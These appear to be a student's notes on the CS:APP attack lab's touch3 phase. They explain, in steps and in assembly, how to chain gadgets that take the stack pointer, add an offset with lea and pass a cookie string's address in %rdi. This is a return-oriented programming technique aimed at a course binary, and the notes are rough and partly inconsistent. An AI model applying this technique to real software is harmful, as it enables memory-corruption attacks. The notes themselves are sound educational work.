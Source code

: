 
the key point is to construct byte representation of 59b997fa on the stack and %rsp add the offset , then pass the address to %rdi

1. where to get %rsp address
2. after get the %rsp address, how to construct the byte representation of 59b997fa and store it on the stack
3. how to pass the address to %rdi
4. call touch3

answer:
1. the address where overflow happens is the address of %rsp
2. then move %rsp to %rax
3. then move %rax to %rdi
4. in order to get the addr, we use "lea",which add_xy shows

``` asm
popq %rax

mov %eax, %edx // from pdf "review the effect a movl instruction has on the upper 4 bytes of a register"
mov %edx, %ecx // it means when this hapeen to a 64-bit register, the upper 4bytes(32 bits) are zeroed out
mov %ecx, %ebx // in order to use lea

mov %rsp, %rax
mov %rax, %rdi // %rsp start from here

lea (%rdi, %rsi, 1), %rax

mov %rax, %rdi // move the address of string to %rdi

// call touch3

// the ascii code of string, where %rsp - 32
```



